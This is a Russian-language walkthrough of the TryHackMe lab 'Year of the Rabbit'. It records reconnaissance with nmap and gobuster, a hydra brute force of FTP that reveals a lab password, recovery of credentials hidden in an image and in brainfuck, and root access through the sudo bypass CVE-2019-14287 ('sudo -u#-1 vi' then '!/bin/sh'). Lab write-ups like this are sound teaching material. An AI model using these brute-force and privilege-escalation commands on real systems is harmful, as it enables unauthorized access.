


# Year of the Rabbit[^1]
## Questions:
1. What is the user flag? <br />
1. What is the root flag? <br />
## Сканирование
Сканируем машину при помощи Nmap. <br />
```console
nmap -A -sV your_machine_ip
```


В результате сканирования мы обнаружили: 
- 21 port - FTP (vsftpd 3.0.2)
- 22 port - SSH (OpenSSH 6.7p1)
- 80 port - HTTP (Apache 2.4.10)

## Web-ресурсы 

Проверим активный веб-сервис

```sh
http://your_machine_ip
```


Обнаруживаем стандартную страницу Apache, пока-что ничего нас интересующего

Произдведем поиск директорий при помощи gobuster

```console
gobuster dir -r -k -x .php,.txt,.html -r -k --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --url your_machine_ip
```


Достаточно быстро находим директорию /assets, проверим её

```sh
http://your_machine_ip/assets
```


В данной директории находятся:
- RickRolled.mp4 - Видеозапись с понятным содержанием, не трогаем пока-что, т.к. не быть закрикроленными
- style.css - CSS документ

Откроем style.css


Наблюдаем  подсказку посмотреть страницу /sup3r_s3cr3t_fl4g.php

Переходим на неё

```sh
http://your_machine_ip/sup3r_s3cr3t_fl4g.php
```


Но что мы тут видим?


Если присмотреться, то можно заметить что происходит переадресация с http://your_machine_ip/sup3r_s3cr3t_fl4g.php на http://your_machine_ip/sup3r_s3cret_fl4g, что достаточно интересно, попробуем изучить данный вопрос повнимательнее при помощи burp suite

Заходим в burp suite, выбираем proxy - intercept и включаем перехват 

```sh
http://your_machine_ip/sup3r_s3cr3t_fl4g.php
```


Вводим нашу ссылку


Сначала ничего интересного


А вот тут уже что-то есть

Наблюдаем скрытую директорию /WExYY2Cv-qU

Переходим к данной директории


Мы можем наблюдать в ней изображение с названием Hot_Babe.png, откроем его


Описание не врало, там действительно находится Hot_Babe

## Компрометация машины, поиск User flag

Cкачаем данное изображение и проверим его при помощи утилиты strings

```console
strings Desktop/Hot_Babe.png
```


Вводим команду, на выходе получаем большое количество ненужных данных, листаем вниз, пока не наткнемся на подсказку


Мы получили username и много паролей, из этого следует, что нужно провести атаку перебором на ssh, для этого будем использовать инструмент hydra

Но для начала создадим словарь со всеми вариантами пароля

Создаем .txt документ (я назвал его rabbit_worldist) и открываем его с помощью nano.
Вставляем туда наши данные, полученные из strings, сохраняем изменения и закрываем

```console
sudo nano Desktop/rabbit_wordlist.txt
```


Запускаем hydra, выбираем созданный нами словарь

```console
hydra -l ftpuser -P Descktop/rabbit_wordlist.txt ftp://your_machine_ip/
```


В результате hydra подобрала нам пароль от ftpuser - 5iez1wGXKfPKQ

Попробуем войти при помощи этих данных и осмотреться

```console
ftp your_machine_ip
```
```console
ftp> ls
```


Наблюдаем файл Eli's_Creds.txt, скачаем его

```console
ftp> get Eli's_Creds.txt
```


Откроем его при помощи nano

```console
sudo nano Eli's_Creds.txt
```



Oh, we've just got brainf#cked

Переходм на замечательный ресурс [dcode.xyz](https://dcode.fr/en).
Выбираем инструмент Cipher Identifier, и вставляем наш шфиротекст


dcode.xyz идентифицировал его как brainfuck, переходим на его страницу и снова вставляем наш шифротекст


В результате получаем учетные данные от пользователя eli

Подключаемся по ssh при помощи нполученных учетных данных

```console
ssh eli@your_machine_ip
```

Наблюдаем сообщение:


Осмотримся 

```console
ls -l
```


Пока-что ничего полезного

Но мы помним, что в приветсвенном сообщении слово s3cr3t было написано не совсем обычно, попробуем поискать его

```console
locate s3cr3t
```


А вот тут что-то интересное, в результатах видим /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!

Посмотрим что в нем

```console
cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\!
```


Мы получили пароль от учетной записи gwendoline, но пока эта учетная запись нам нигде не нужна, ищем user flag дальше.

Стоит поискать user.txt

```console
locate user.txt
```


Попробуем прочитать его

```console
cat home/gwendoline/user.txt
```


В доступе отказано, eli не имеет к нему доступа, вероятно стоит попробовать учетную запись gwendoline

```console
su gwendoline
```


Мы успешно вошли, попробуем снова прочитать user.txt

```console
cat home/gwendoline/user.txt
```


Мы получили User flag! 

## Поиск Root flag

Посмотрим, можем ли мы выполнять команды от sudo

```console
sudo -l
```


Монжно запустить /usr/bin/vi  /home/gwendoline/user.txt любым пользователем, кроме рута, без пароля. Выглядит ненадежно, стоит поискать уязвимости.

Но для сначала выясним версию sudo

```console
sudo -V
```


Ищем уязвимость


Находим CVE-2019-14287


Эксплуатируем данную уязвимость

```console
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```


Успешно


Продолжаем

```console
!/bin/sh
```


Вводим данную команду


Успешно, нами получены root права

Теперь перейдем в bash , осмотримся и прочитаем root.txt


Мы нашли root flag!


[^1]:https://tryhackme.com/room/yearoftherabbit#


